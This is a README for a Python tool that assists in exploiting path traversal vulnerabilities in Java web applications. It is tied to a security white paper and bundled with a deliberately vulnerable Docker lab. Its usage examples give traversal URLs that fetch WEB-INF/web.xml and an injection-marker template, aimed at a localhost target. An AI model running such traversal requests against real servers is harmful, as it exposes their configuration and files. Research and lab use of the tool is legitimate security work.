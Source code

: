 ### WebXMLExp.py

Tool for helping in the exploitation of path traversal vulnerabilities in Java web applications.

This tool is referenced in the Invicti Security white paper [Exploiting path traversal vulnerabilities in Java web applications](https://www.invicti.com/white-papers/exploiting-path-traversal-vulnerabilities-java-web-applications-technical-paper/)

## Install

Python3 is required for this tool.

Run the following command:
```
pip install -r requirements.txt
```
## Usage:

After installation provide an exploit URL like so:
```
usage: python WebXMLExp.py <url_with_web_xml_exploit_or_inject_here_marker>
```

The results (files that were downloaded) are available in the **results** folder.

### Examples

```
python WebXMLExp.py "http://127.0.0.1:8082/vulnerable/download.servlet?filename=WEB-INF/web.xml"
python WebXMLExp.py "http://127.0.0.1:8082/vulnerable/download.servlet?filename=<INJECT-HERE>"
```

## Vulnerable web application docker image

A web application vulnerable to a path traversal vulnerability is provided in the **docker** folder.

To start, enter into the **docker** folder and run:

```
docker-compose up
```

The application is accessible at  **http://127.0.0.1:8082/vulnerable/**.

To exploit the the path traversal vulnerability visit:
http://127.0.0.1:8082/vulnerable/download.servlet?filename=WEB-INF/web.xml
